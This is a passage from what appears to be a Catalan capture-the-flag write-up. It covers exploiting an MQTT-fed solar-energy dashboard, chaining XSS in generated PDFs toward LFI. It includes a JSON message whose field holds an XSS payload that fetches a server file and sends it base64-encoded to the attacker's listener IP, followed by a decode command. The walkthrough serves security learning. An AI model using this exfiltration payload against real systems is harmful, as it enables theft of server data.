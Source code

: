 ```html
                            <tr>
                    <td>2024-09-02T23:29:26.645Z</td>
                    <td>
                        <a href="?download=true&file=2024-09-02T23%3A29%3A26.645Z.json" class="download-btn">Download PDF</a>
                    </td>
                </tr>
                    </table>
        <a href="../dashboard.php" class="logout-link">&lt; Back</a>
    </div>
</body>
</html>
```

Obtenim un llistat de registres en format PDF per descarregar. Mai apareixeran més de 10 registres i, per cada missatge enviat al topic `record`, apareixerà un PDF per descarregar en aquest llistat.

## XSS en PDF a LFI a través de MQTT

Descarreguem alguns d'aquests fitxers utilitzant la mateixa tècnica. Continuem a l'escolta amb el nostre servei HTTP i enviem el següent JSON al topic `data`, introduint les URLs de descàrrega dels fitxers PDF.

```json
{
  "solarEnergy": "<img src=x onerror=\"(async () => {location.href='http://192.168.1.116?data='+btoa(String.fromCharCode(...new Uint8Array(await (await fetch('/records/?download=true&file=2024-09-02T23%3A29%3A26.645Z.json')).arrayBuffer())));})();\" />",
  "consumedEnergy": 15
}
```

Aquesta vegada guardem el base64 en un fitxer `base64pdf1.txt`, per exemple.

```bash
cat base64pdf1.txt | base64 -d > document.pdf
```

Si visualitzem el document, podrem veure la injecció XSS enviada.
